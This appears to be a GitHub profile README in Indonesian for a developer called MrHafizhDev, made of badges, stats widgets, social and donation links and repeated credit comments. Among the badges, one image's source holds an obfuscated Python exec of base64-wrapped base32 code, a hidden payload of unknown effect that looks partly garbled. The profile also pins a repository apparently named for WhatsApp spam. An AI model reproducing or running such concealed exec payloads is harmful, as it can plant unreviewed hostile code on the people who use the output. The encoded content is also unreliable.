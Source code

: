 <!--- Script Punya Hafizh Ganz--->
<!--- Script Hafizh Ganz--->
<!--- Subs YT Doraemon Bot Official--->
<!--- Follow IG @hafizh.ganzzz_--->
<!--- Thanks Om Dah Mampir--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->

<h1 align="center">Welcome To Github MrHafizh<img src="https://user-images.githubusercontent.com/1303154/88677602-1635ba80-d120-11ea-84d8-d263ba5fc3c0.gif" width="40px"></h1>

<p align="center">
  <img src="https://i.ibb.co/sVfVTd9/5c3f2111f054.jpg" />
</p>

- 🌱 I’m currently learning **nothing**.

- 👀 I'm currently focusing on **JavaScript** ,**Shell** , And **Python**.

- 👥 Looking for collaborators on [`TermuxKeyByMrHafizh`](https://github.com/MrHafizhDev/termuxkey)

<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<p align="center">
  <img src="https://img.shields.io/badge/-JavaScript-black?style=flat-square&logo=javascript" />
  <img src="https://img.shields.io/badge/-Node.Js-black?style=flat-square&logo=Node.js" />
  <img src="https://img.shields.io/badge/-HTML5-black?style=flat-square&logo=html5&logoColor=e34f26" />
  <img src="https://img.shields.io/badge/-CSS3-black?style=flat-square&logo=css3&logoColor=1572b6" />
  <img src="https://img.shields.io/badge/-Git-black?style=flat-square&logo=git" />
  <img src="https://img.shields.io/badge/-GitHub-black?style=flat-square&logo=github" /> <br>
  <img src="https://img.shields.io/badge/-Python-black?style=flat-square&logo=python" />
  <img src="https://img.shields.io/badge/-React-black?style=flat-square&logo=react" />
  <img src="https://img.shields.io/badge/-Redux-black?style=flat-square&logo=redux" />
  <img src="https://img.shields.io/badge/-Windows-black?style=flat-square&logo=windows" />
  <img src="https://img.shields.io/badge/-VS_Code-black?style=flat-square&logo=visual-studio-code" />
  <img src="https://img.shields.io/badge/-SQLite3-black?style=flat-square&logo=sqlite" />
</p>

<!--- Cie Yang Mau Nyolong Izin Dulu Sama Hafizh Om--->

<p align="center">
<img src="https://komarev.com/ghpvc/?username=MrHafizhDev&label=VIEWS MR.HAFIZH DEV&style=flat-square&color=brightgreen" />
</p>

<!--- Ini Penting Jangan Diubah Om--->

<p align="center">
<a href="https://github.com/MrHafizhDev"><img src="https://github-readme-stats.vercel.app/api?username=MrHafizhDev&bg_color=30,e96443,904e95&title_color=fff&text_color=fff&icon_color=fff&hide_border=true&show_icons=true" /></a>
</p>

<p align="center">
  <a href="https://github.com/MrHafizhDev"><img src="https://github-readme-stats.vercel.app/api/top-langs?username=MrHafizhDev&bg_color=30,e96443,904e95&title_color=fff&text_color=fff&hide_border=true&show_icons=true&layout=compact" /></a>
</p>

<p align="center">
  <a href="https://github.com/ryo-ma/github-profile-trophy"><img src="https://github-profile-trophy.vercel.app/?username=ryo-ma&theme=onedark" /></a>
</p>

<p align="center">
   <img src="https://github-readme-streak-stats.herokuapp.com/?user=MrHafizhDev" />
</p>

<p align="center">
<a href="#"><img title="MyProfile" src="https://img.shields.io/badge/MyProfile-green?colorA=%23ff0000&colorB=%23017e40&style=for-the-badge"></a>
</p>
<p align="center">
<a href="#"><img title="test" src="exec(base64.b64decode('aW1wb3J0IGJhc2U2NApleGVjKGJhc2U2NC5iMzJkZWNvZGUoJ0hSWUNBWUxNTkZUVzRQSkNNTlNXNDVERk9JUkQ0Q1I0TkQ1I0TkZXV09JRFRPSlJUMklUSU9SMkhBNFoyRjRYV1NMVEpNSlJDNFkzUEY1RFdJNkJYTUk0VE9MMkpKVkRTMk1SUUdJWVRBTkJRSEVXVk9RSlFHTTNEFHTTNER0xUS09CVFNFSUJQSFlGRFlMM1FIWUZBPT09PScpKQ==')"
<!--- Terserah Mau Ganti Atau Gak--->
<p align="center">
<img src="https://i.ibb.co/Gdx7b97/IMG-20210409-WA0363.jpg" />
</p>
<!--- End Terserah Mau Ganti Atau Gak--->
<p align="center">
<a href="https://github.com/MrHafizhDev"><img title="Author" src="https://img.shields.io/badge/AUTHOR-HAFIZH-blue.svg?style=for-the-badge&logo=github"></a>
<p align="center">
<a href="https://github.com/MrHafizhDev/followers"><img title="Followers" src="https://img.shields.io/github/followers/MrHafizhDev?color=blue&style=flat-square"></a>
<a href="https://github.com/MrHafizhDev/spamwabyhafizhganz/stargazers/"><img title="Stars" src="https://img.shields.io/github/stars/MrHafizhDev/MyProfile?color=red&style=flat-square"></a>
<a href="https://github.com/MrHafizhDev/MyProfile/network/members"><img title="Forks" src="https://img.shields.io/github/forks/MrHafizhDev/MyProfile?color=red&style=flat-square"></a>
<a href="https://github.com/MrHafizhDev/MyProfile/watchers"><img title="Watching" src="https://img.shields.io/github/watchers/MrHafizhDev/MyProfile?label=Watchers&color=blue&style=flat-square"></a>
<a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FUrbaee%2Fwhatsapp-bot2&count_bg=%232396FF&title_bg=%23555555&icon=meteor.svg&icon_color=%23F5F9FF&title=visitor&edge_flat=false"/></a>
</p>

  
  
## Hits Repositories
<p align="left">
<a href="https://github.com/MrHafizhDev/spamwabyhafizhganz">
 <img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=MrHafizhDev&repo=spamwabyhafizhganz&theme=dark" />
  </p>
<p align="left">
<a href="https://github.com/MrHafizhDev/MrHafizhDev">
 <img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=MrHafizhDev&repo=MrHafizhDev&theme=dark" />
  </p>
  
  
## Coding Yang Selalu Saya Gunakan
<p>
    <img
        src="https://img.shields.io/badge/node.js%20-%2343853D.svg?&style=for-the-badge&logo=node.js&logoColor=white" />
    <img
        src="https://img.shields.io/badge/javascript%20-%23323330.svg?&style=for-the-badge&logo=javascript&logoColor=%23F7DF1E" />

<!--- End Data Penting Om --->

<!--- Yang Ini Ubah Aja Om Gapapa --->

## Ingfo

- 👋 Halo Saya Mr Hafizh Dev
- 👀 Lumayan Suka Game
- 🌱 Cinta Tanaman And Lingkungan
- 💞️ Please Help Me Dengan Cara Berdonasi 
- 📫 Jika Anda Bingung Tanya Kan Dengan Di Bawah Ini
- ♠️ [`HELP HUMAN`](https://wa.me/6285741056111)

<!--- End Data --->

<!---
Tobat Yok Om Dah Ramadhan :v
--->
<!---
MrHafizhDev/MrHafizhDev is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->


 ## MEDSOS HAFIZH
- [`YouTube`](https://m.youtube.com/channel/UCEAiLVNeKGtN_0HhLopgOvw)
- [`Instagram`](https://instagram.com/hafizh.ganzzz_)
- [`WhatsApp`](https://wa.me/6285741056111)
- [`GitHub`](https://github.com/MrHafizhDev)
- [`MY GROUP`](https://chat.whatsapp.com/BlhY5aEfrlw3hMf7DVot59)

 ## DONATE ME!
- [`Gopay`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+Gopay+dengan+jumlah+Rp.)
- [`Pulsa`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+pulsa+dengan+jumlah+Rp.)
- [`Dana`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+Dana+dengan+jumlah+Rp.)
- [`Link Aja`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+LinkAja+dengan+jumlah+Rp.)
- [`Your Payment`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+My+Payment+dengan+jumlah+Rp.)


## SPECIAL THANKS TO 
- **ORANG TUA**
- **[`HAFIZHDEV`](https://github.com/MrHafizhDev)**
- [`AKUN KE 2`](https://github.com/Mrhafizh21)

<!---
Bebas Lu Mau Ganti Kata Kata Penutup Nya Jadi Kata Kata Lu
--->
## Penutup 
```
Sekian Om Dari Saya Bila Anda Penasaran Dengan Repo Apa Saja Yang Saya Buat
Langsung Cek List Repo Ya Om 🗿 Tanpa Banyak Bicit Langsung Gaskenn Wkwkk
```
<!---
End
--->

<!--- Jangan Diubah Amsu --->
<!--- Kasih Credit Gw --->
<!--- Moga Aja Yang Gk Ngasih Credit Dia Gk Pernah Dikasih Credit--->
<!--- Amin...--->

<p align="center">
  <a href="https://m.youtube.com/channel/UCEAiLVNeKGtN_0HhLopgOvw"><img src="https://img.shields.io/badge/YouTube-Doraemon%20Bot%20Official-ff0000?style=for-the-badge&logo=youtube&logoColor=ff0000&link=https://m.youtube.com/channel/UCEAiLVNeKGtN_0HhLopgOvw" /></a>
  <a href="mailto:doraemonbotofficial@secret.fyi"><img src="https://img.shields.io/badge/Gmail-doraemonbotofficial@secret.fyi-ea4335?style=for-the-badge&logo=Gmail&logoColor=ea4335&link=mailto:doraemonbotofficial@secret.fyi" /></a>
  <a href="https://instagram.com/hafizh.ganzzz_"><img src="https://img.shields.io/instagram/hafizh.021y?logo=twitter&style=for-the-badge" /></a> <br>

<!--- End--->
<!--- End--->
<!--- End--->
<!--- End Script README.md--->

